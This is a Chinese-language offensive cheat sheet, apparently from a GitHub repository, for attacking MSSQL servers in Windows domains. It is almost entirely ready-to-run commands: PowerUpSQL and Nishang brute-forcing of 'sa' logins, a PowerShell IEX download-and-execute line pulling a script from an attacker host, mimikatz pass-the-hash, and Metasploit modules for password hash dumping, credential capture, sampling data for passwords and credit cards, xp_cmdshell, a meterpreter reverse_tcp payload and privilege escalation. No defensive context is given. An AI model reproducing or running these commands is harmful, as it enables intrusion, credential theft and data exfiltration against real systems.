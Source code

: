   ### Powershell脚本	
	>PowerShell -Command "[System.Data.Sql.SqlDataSourceEnumerator]::Instance.GetDataSources()" 列出域内mssql主机
	https://github.com/NetSPI/PowerUpSQL
	>Get-SQLInstanceLocal          #发现本机SQLServer实例
	>Get-SQLInstanceDomain         #发现域中的SQLServer实例
	>Get-SQLInstanceBroadcast      #发现工作组SQLServer实例
	>$Targets = Get-SQLInstanceBroadcast -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username sa -password admin | Where-Object {$_.Status -like "Accessible"} 工作组mssql爆破
	>$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username sa -password admin | Where-Object {$_.Status -like "Accessible"} 
	>Get-SQLInstanceBroadcast -Verbose | Get-SQLServerLoginDefaultPw –Verbose
	>$Targets 域内MSSQL爆破
	Nishang脚本爆破MSSQL
	>Invoke-BruteForce -ComputerName dc.zone.com -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service SQL -Verbose -StopOnSuccess
	>use auxiliary/scanner/mssql/mssql_login 爆破主机
	>use auxiliary/admin/mssql/mssql_exec 调用cmd
	>use auxiliary/admin/mssql/mssql_sql 执行SQL语句
	>use exploit/windows/mssql/mssql_payload 上线MSSQL主机
	http://192.168.0.107/ps/nishang/Execution/Execute-Command-MSSQL.ps1
	导入nishang执行MSSQL命令的脚本
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Execution/Execute-Command-MSSQL.ps1')
	>Execute-Command-MSSQL -ComputerName 192.168.0.98 -UserName sa -Password admin 会返回powershell
	>use auxiliary/scanner/mssql/mssql_hashdump 导出MSSQL密码
	已知服务器ntlmhash，未知mssql账号密码
	Hash注入+socks无密码连接mssql
	>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:. /ntlm:{hash} /run:\"C:\*\SocksCap64\SocksCap64_RunAsAdmin.exe\"" "exit"
	将SSMS.exe加入sockscap中启动
	命令行版sqltool
	https://github.com/uknowsec/SharpSQLTools
  ### MSF攻击mssql
  	定位mssql服务器
	>use auxiliary/scanner/mssql/mssql_ping
	>set rhosts 192.168.1.1/24
	>exploit
	密码破解
	>use auxiliary/scanner/mssql/mssql_login
	>set rhosts 192.168.1.3
	>set user_file /root/users.txt
	>set verbose false
	>exploit
	检索版本
	>use auxiliary/admin/mssql/mssql_sql
	>set rhosts 192.168.1.3
	>set username lowprwiv
	>set password Password@1
	>exploit
	枚举信息
	>use auxiliary/admin/mssql/mssql_enum
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	用户枚举
	>use auxiliary/admin/mssql/mssql_enum_sql_login
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	捕获登录信息
	>use auxiliary/server/capture/mssql
	>set srvhost 192.168.1.2
	>exploit
	DUMP数据
	>use auxiliary/admin/mssql/mssql_findandsampledata
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>set sample_size 4
	>set keywords FirstName|passw|credit
	>exploit
	DUMP哈希
	>use auxiliary/scanner/mssql/mssql_hashdump
	>set rhosts 192.168.1.149
	>set username sa
	>set password Password@1
	>expoit
	执行命令xp_cmdshell
	>use exploit/windows/mssql/mssql_payload
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	MSSQl_exec
	>use auxiliary/admin/mssql/mssql_exec
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>set cmd "net user"
	>exploit
	CLR程序集
	>use exploit/windows/mssql/mssql_clr_payload
	>set payload windows/x64/meterpreter/reverse_tcp
	>set username lowpriv
	>set password Password@1
	>exploit
	权限提升
	>use auxiliary/admin/mssql/mssql_escalate_dbowner
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	冒用
	>use auxiliary/admin/mssql/mssql_escalate_execute_as
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit